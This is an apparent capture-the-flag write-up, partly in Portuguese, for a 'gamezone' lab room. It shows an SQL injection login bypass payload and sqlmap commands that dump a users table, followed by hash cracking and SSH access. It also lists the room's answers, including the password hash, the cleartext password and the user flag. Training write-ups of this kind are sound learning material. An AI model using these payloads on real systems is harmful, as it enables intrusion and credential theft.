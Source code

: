 # gamezone

TASK 1 - Deploy the vulnerable machine

What is the name of the large cartoon avatar holding a sniper on the forum?
R: Agent 47

nmap -sC -sV 10.10.138.171

![image](https://github.com/yanfernandess/gamezone/assets/100174458/ff14a15b-5083-4c7b-8477-422c389aa6c0)

TASK 2 -  Obtain access via SQLi

Log in: ' or 1=1 -- -
Password:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/9b1ab06e-9f2f-4498-b9aa-2e0fca682d61)

When you've logged in, what page do you get redirected to?
R: portal.php

![image](https://github.com/yanfernandess/gamezone/assets/100174458/86b0560e-c2a6-4d29-b7dc-dd067d5c1232)

TASK 3 - Using SQLMap

Salvar o código fonte que aparece no BURP SUITE da página logo após inserir alguma informação no input em um arquivo txt, vamos usar isso logo em seguida.

sqlmap -r request.txt --current-db
![image](https://github.com/yanfernandess/gamezone/assets/100174458/e0590bd6-1677-4274-a095-f79b125ed9f7)

Descobrimos que temos um banco de dados chamado 'db'

sqlmap -r request.txt -D db --tables

![image](https://github.com/yanfernandess/gamezone/assets/100174458/10fe000e-346e-499d-96f2-3b2ab7c228ec)

Temos duas tabelas dentro do banco de dados, vamos explorar elas.

sqlmap -r request.txt -D db users --dump

![image](https://github.com/yanfernandess/gamezone/assets/100174458/27c46287-82b9-4cde-96aa-4c7ec7ee35f5)

In the users table, what is the hashed password?
R: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

What was the username associated with the hashed password?
R: agent47

What was the other table name?
R: post

TASK 4 - Cracking a password with JohnTheRipper

Ele esta pedindo para descriptografar com o JohnTheRipper mas utilizei uma ferramenta online para fazer isso, segue o link abaixo:

https://www.dcode.fr/

![image](https://github.com/yanfernandess/gamezone/assets/100174458/614ba3fd-7c28-42e6-a352-660754da9719)

Conseguimos acesso SSH com o login e a senha que acabamos de descriptografar.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/09cf8537-da10-4d64-9c79-20b52316b187)

E conseguimos a primeira flag.

![Uploading image.png…]()

What is the de-hashed password?
R: videogamer124


Now you have a password and username. Try SSH'ing onto the machine.

What is the user flag?
R: 649ac17b1480ac13ef1e4fa579dac95c

TASK 5 - Exposing services with reverse SSH tunnels


